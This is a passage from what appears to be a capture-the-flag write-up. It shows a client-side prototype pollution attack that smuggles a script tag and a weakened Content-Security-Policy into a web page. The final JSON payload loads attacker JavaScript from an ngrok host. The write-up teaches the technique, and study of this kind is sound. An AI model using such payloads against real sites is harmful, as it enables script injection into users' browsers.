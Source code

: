 We may modify the `jsonCodeOutput` object properties using the prototype pollution vulnerability to inject our script and achieve js code execution. For more details see :

[Hacktricks prototype pollution](https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution)

The final payload:

```json
{
  "name": "</title> <meta http-equiv='Content-Security-Policy' content=\"script-src * 'sha256-eyVKju/vSji+klXiXwhgD7spFJI0/Kk10K2eq4a9NCU=' 'sha256-8+tX0RdD8rNbWDDLNb3z8ixoi28g7G5On2AwCBePR0Y=' \"><title>",
  "category": "asd",
  "value": "1337",
  "__proto__": {
    "tag": "script",
    "attributes": {
      "src": "https://6f40-105-235-137-14.ngrok.io/asd.js",
      "id": "vvxhid"
    }
  }
}
```

![](challenge-12.png)

![](challenge-13.png)

### References

- https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP
- https://book.hacktricks.xyz/pentesting-web/deserialization/nodejs-proto-prototype-pollution/client-side-prototype-pollution


